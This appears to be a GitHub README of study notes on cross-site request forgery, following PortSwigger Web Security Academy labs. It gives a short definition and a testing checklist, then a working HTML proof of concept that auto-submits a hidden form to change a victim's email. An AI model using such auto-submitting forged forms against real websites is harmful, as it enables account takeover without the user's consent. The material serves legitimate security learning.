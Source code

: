 - [What is CSRF or XSRF?](#what-is-csrf-or-xsrf)
- [Validations To-Do](#validations-to-do)
- [CSRF vulnerability with no defenses](#csrf-vulnerability-with-no-defenses)
- [CSRF where token validation depends on request method](#csrf-where-token-validation-depends-on-request-method)
- [CSRF where token validation depends on token being present](#csrf-where-token-validation-depends-on-token-being-present)
- [CSRF where token is not tied to user session](#csrf-where-token-is-not-tied-to-user-session)
- [CSRF where token is tied to non-session cookie](#csrf-where-token-is-tied-to-non-session-cookie)
- [CSRF where token is duplicated in cookie](#csrf-where-token-is-duplicated-in-cookie)
- [SameSite Lax bypass via method override](#samesite-lax-bypass-via-method-override)
- [SameSite Strict bypass via client-side redirect](#samesite-strict-bypass-via-client-side-redirect)
- [SameSite Strict bypass via sibling domain](#samesite-strict-bypass-via-sibling-domain)
- [SameSite Lax bypass via cookie refresh](#samesite-lax-bypass-via-cookie-refresh)
- [CSRF where Referer validation depends on header being present](#csrf-where-referer-validation-depends-on-header-being-present)
- [CSRF with broken Referer validation](#csrf-with-broken-referer-validation)

---
# What is CSRF or XSRF?

CSRF or Cross Site Request Forguery. When the user logs in can do things like change the email, the profile image... Account session remains open for a while, then, the evil actor can create a malicious website and automate some of this action, change the email, profile image...

# Validations To-Do

- Change request method and remove CSRF token.
- Remove the CSRF token with the same method.
- With two users try to use the csrf token of one in the other account and see if we can change the email.
# CSRF vulnerability with no defenses

This is a very simple case, if you try to intercept the request when change the email you see a new endpoint, **my-account/change-email** that doesn't have csrf_token and nothing, only the email and the cookie session. 

```html
<form class="login-form" name="change-email-form" action="https://0afa0059033cfb278178117c00c90042.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.com">
</form>

<script>
document.forms[0].submit();
</script>
```

document.forms[0].submit() -> Is the way to submit the form via javascript. You can copy the form with any of the page.
